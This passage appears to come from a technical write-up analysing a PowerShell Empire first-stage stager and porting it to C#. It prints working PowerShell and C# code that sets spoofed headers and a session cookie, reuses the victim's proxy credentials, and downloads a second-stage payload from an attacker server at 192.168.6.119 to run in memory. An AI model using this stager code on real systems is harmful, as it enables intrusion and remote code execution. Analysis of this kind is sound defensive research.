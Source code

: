 # Server Connection
 
Next point we have is the **Web.Client** object, we use it to communicate with the Empire Server which is hosting the 2nd stage. 
 
Basically the 1st stage is responsible for creating a connection to the attacker machine and execute in memory the 2nd part of the payload (which is usually bigger), this is the 2nd stage. Sometimes are reference as stage0 and stage1. If you want to know more about stage and stageless payload you can check this [Metasploit documentation](https://blog.rapid7.com/2015/03/25/stageless-meterpreter-payloads/).
 
The **Web.Client** object include all pieces of to perform web communication. In case the target is using proxy to communicate to other networks, the **DefaultWebProxy** and **DefaultNetworkCredentials** properties are used to provide Authentication and connection through Proxy Server, if necessary. I didn't convert the proxy part of the code, it was not necessary for my investigation, is up to you to convert it if you need it.
 
```
# PowerShell Create WebClient Object
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
# PowerShell Use Default Web Proxy if Enabled
$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
// C# Create a WebClient Object
WebClient wc = new WebClient();
string ua = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";
wc.Headers["User-Agent"] = ua;
wc.Headers["Cookie"] = "session=968PH6bE9CDkwYGfsUPraz0x5PQ=";
```

Then we need to specify the server address, port and the target location, in our case this is the full URL http://192.168.6.119:80/CWoNaJLBo/VTNeWw11212/. After that, we call the DownloadData method from the Web.Client class to save the data in the $data variable. If you are curious about the data (2nd stage payload) is usually located in /opt/Empire/data/agent/stagers/http.ps1.
 
```
# PoweShell Set Server Address and Download the data.
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t); # Download
 
// C# Set Server Address and Download the data.
string server = "http://192.168.6.119:8081";
string target = "/CWoNaJLBo/VTNeWw11212/";
byte[] data = wc.DownloadData(server + target); // Download
```
